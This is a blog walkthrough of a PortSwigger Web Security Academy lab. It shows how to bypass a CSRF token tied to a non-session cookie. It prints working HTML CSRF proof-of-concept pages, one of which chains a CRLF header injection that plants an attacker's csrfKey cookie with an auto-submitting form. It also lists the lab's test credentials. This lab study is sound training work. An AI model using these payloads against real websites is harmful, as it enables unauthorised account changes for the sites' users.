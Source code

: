 ```yaml
---
layout: post
title:  "CSRF where token is tied to non-session cookie"
date:   2024-10-06 12:14:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Solution 

After login, just like the other labs what we saw on a CSRF vulnerability on `Update email` but there will be certain measures in order to bypass it 

If update the email and this is how request and response looks like 

![]({{ site.baseurl }}/assets/images/csrf-30.png)

Now what I did, let's generate a simple CSRF POC and check in the current user session which is `wiener` and it works and updated the email to what I provided 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="2&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="f3QjcLNuEvtdJ2kz3MPz0wYHq83LZKli" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

For wiener it works, but with the CSRF I logged in as `carlos` and checked the POC it didn't workout because of `Invalid CSRF token`

![]({{ site.baseurl }}/assets/images/csrf-31.png)

Let's finetune the CSRF POC and our first step to copy the CSRF token from source page once after login as `carlos` and copy the `csrfKey` by intercepting the update email and copy it from the header 

![]({{ site.baseurl }}/assets/images/csrf-32.png)

Fine tuned CSRF POC looks like as follows:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker233333&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="HVXSXAHpIyEbsNBBLt9LO2rxlKWTGzub" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrfKey=KosN7sSRNilWGKqc6ihUuKUhprqtGQyn%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

let's debug on how it works, in the home page we have a search functionality where it is vulnerable to a CRLF attack through we can inject the `csrfKey` where we copied and copy the CSRF token from `POST` body of `carlos` user when you update the email.. If all goes well, when paste the CSRF POC into the exploit server and then click on `Store -> Deliver the exploit to victim` and that solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-33.png)